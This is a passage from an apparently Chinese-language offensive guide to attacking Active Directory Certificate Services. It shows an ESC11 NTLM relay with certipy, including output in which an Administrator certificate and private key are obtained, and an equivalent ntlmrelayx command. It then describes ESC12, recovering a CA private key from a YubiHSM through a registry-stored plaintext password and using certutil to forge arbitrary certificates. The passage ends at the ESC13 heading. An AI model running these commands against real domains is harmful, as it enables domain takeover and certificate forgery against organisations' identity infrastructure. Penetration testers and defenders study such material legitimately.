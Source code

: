 需要设置一个中继服务器：
```bash
$ certipy relay -target 'rpc://DC01.domain.local' -ca 'DC01-CA' -dc-ip 192.168.100.100
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Targeting rpc://DC01.domain.local (ESC11)
[*] Listening on 0.0.0.0:445
[*] Connecting to ncacn_ip_tcp:DC01.domain.local[135] to determine ICPR stringbinding
[*] Attacking user 'Administrator@DOMAIN'
[*] Template was not defined. Defaulting to Machine/User
[*] Requesting certificate for user 'Administrator' with template 'User'
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'Administrator@domain.local'
[*] Certificate object SID is 'S-1-5-21-1597581903-3066826612-568686062-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```
注意：对于域控制器，我们必须在 DomainController 中指定 `-template`。

或者使用 [sploutchy's fork of impacket](https://github.com/sploutchy/impacket)：
```bash
$ ntlmrelayx.py -t rpc://192.168.100.100 -rpc-mode ICPR -icpr-ca-name DC01-CA -smb2support
```
## Shell access to ADCS CA with YubiHSM - ESC12

### Explanation

管理员可以设置证书颁发机构，将其存储在外部设备上，如“Yubico YubiHSM2”。

如果USB设备通过USB端口连接到CA服务器，或者在CA服务器是虚拟机的情况下连接到USB设备服务器，则需要一个身份验证密钥（有时称为“密码”），以便密钥存储提供程序生成和使用YubiHSM中的密钥。

此密钥/密码以明文形式存储在注册表中，路径为`HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword`。

参考在 [here](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm)。

### Abuse Scenario

如果CA的私钥存储在物理USB设备上，当你获得shell访问时，可以恢复该密钥。

首先，你需要获取CA证书（这是公开的），然后：
```cmd
# import it to the user store with CA certificate
$ certutil -addstore -user my <CA certificate file>

# Associated with the private key in the YubiHSM2 device
$ certutil -csp "YubiHSM Key Storage Provider" -repairstore -user my <CA Common Name>
```
最后，使用 certutil `-sign` 命令利用 CA 证书及其私钥伪造一个新的任意证书。

## OID 组链接滥用 - ESC13

